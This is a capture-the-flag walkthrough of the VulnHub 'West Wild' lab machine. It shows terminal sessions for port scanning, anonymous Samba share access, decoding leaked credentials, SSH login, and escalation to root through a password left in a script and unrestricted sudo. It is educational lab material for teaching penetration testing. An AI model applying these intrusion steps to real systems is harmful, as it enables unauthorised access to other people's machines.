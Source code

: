 ```yaml
---
title: "West Wild CTF Walkthrough"
description: "West Wild CTF Walkthrough"
layout: post
---
```

{% highlight text %}
West Wild v1 1 is a beginner level CTF series, created by Hashim This CTF series is for people who have basic knowledge of penetration Testing tools and techniques , and this machine is include of

1- System Testing

Level = intermediate

and i hope you all will Have F0n ;)
{% endhighlight %}

The virtual machine file can be found [here](https://www.vulnhub.com/entry/westwild-11,338/)

#### Enumeration
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.141 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 04:41 EDT
Nmap scan report for 192.168.56.141
Host is up (0.0022s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: WESTWILD; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

Enumerating Samba shares on the system: 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbmap -H 192.168.56.141          
[+] Guest session   	IP: 192.168.56.141:445	Name: 192.168.56.141                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	wave                                              	READ ONLY	WaveDoor
	IPC$                                              	NO ACCESS	IPC Service (WestWild server (Samba, Ubuntu))
{% endhighlight %}

Mounting the wave share:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.141/wave   
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 30 01:18:56 2019
  ..                                  D        0  Thu Aug  1 19:02:20 2019
  FLAG1.txt                           N       93  Mon Jul 29 22:31:05 2019
  message_from_aveng.txt              N      115  Tue Jul 30 01:21:48 2019

		1781464 blocks of size 1024. 284616 blocks available
smb: \> get FLAG1.txt 
getting file \FLAG1.txt of size 93 as FLAG1.txt (10.1 KiloBytes/sec) (average 10.1 KiloBytes/sec)
smb: \> get message_from_aveng.txt 
getting file \message_from_aveng.txt of size 115 as message_from_aveng.txt (12.5 KiloBytes/sec) (average 11.3 KiloBytes/sec)
smb: \> quit
{% endhighlight %}

Getting the first flag: 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ cat FLAG1.txt 
RmxhZzF7V2VsY29tZV9UMF9USEUtVzNTVC1XMUxELUIwcmRlcn0KdXNlcjp3YXZleApwYXNzd29yZDpkb29yK29wZW4K
                                                                                  
┌──(kali㉿kali)-[~]
└─$ echo "RmxhZzF7V2VsY29tZV9UMF9USEUtVzNTVC1XMUxELUIwcmRlcn0KdXNlcjp3YXZleApwYXNzd29yZDpkb29yK29wZW4K" | base64 -d
Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}
user:wavex
password:door+open
{% endhighlight %}
                   

{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ cat message_from_aveng.txt 
Dear Wave ,
Am Sorry but i was lost my password ,
and i believe that you can reset  it for me . 
Thank You 
Aveng 
{% endhighlight %}

Logging in as the wavex user
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ ssh wavex@192.168.56.141            
The authenticity of host '192.168.56.141 (192.168.56.141)' can't be established.
ECDSA key fingerprint is SHA256:Yb4sSLRYvPCqt60Wrfuai7qzsWq4x8zSa/rRDSpke7g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.141' (ECDSA) to the list of known hosts.
wavex@192.168.56.141's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Mar 30 11:40:32 +03 2021

  System load: 0.0               Memory usage: 3%   Processes:       95
  Usage of /:  77.9% of 1.70GB   Swap usage:   0%   Users logged in: 0

  => There are 2 zombie processes.

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Fri Aug  2 02:00:40 2019
wavex@WestWild:~$ 
{% endhighlight %}

Checking for world writeable directories: 
{% highlight terminal %}
wavex@WestWild:~$ find / -writable -type d 2>/dev/null
/sys/fs/cgroup/systemd/user/1001.user/1.session
/usr/share/av/westsidesecret
/home/wavex
/home/wavex/.cache
/home/wavex/wave
/var/lib/php5
/var/spool/samba
/var/crash
/var/tmp
/proc/1498/task/1498/fd
/proc/1498/fd
/proc/1498/map_files
/run/user/1001
/run/shm
/run/lock
/tmp
{% endhighlight %}

Checking the `westsidesecret` directory: 
{% highlight terminal %}
wavex@WestWild:~$ cd /usr/share/av/westsidesecret
wavex@WestWild:/usr/share/av/westsidesecret$ ls -a
.  ..  ififoregt.sh
wavex@WestWild:/usr/share/av/westsidesecret$ cat ififoregt.sh 
 #!/bin/bash 
 figlet "if i foregt so this my way"
 echo "user:aveng"
 echo "password:kaizen+80"
{% endhighlight %}
 
Switching users to `aveng`: 
{% highlight terminal %}
wavex@WestWild:/usr/share/av/westsidesecret$ su aveng 
Password: 
aveng@WestWild:/usr/share/av/westsidesecret$ 
{% endhighlight %}

Checking the sudo privileges of the `aveng` user and getting a root shell: 
{% highlight terminal %}
aveng@WestWild:~$ sudo -l
[sudo] password for aveng: 
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:~$ sudo -i
{% endhighlight %}


Getting the final flag: 
{% highlight terminal %}
root@WestWild:~# cat FLAG2.txt 
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}
Great! take a screenshot and Share it with me in twitter @HashimAlshareff 
{% endhighlight %}




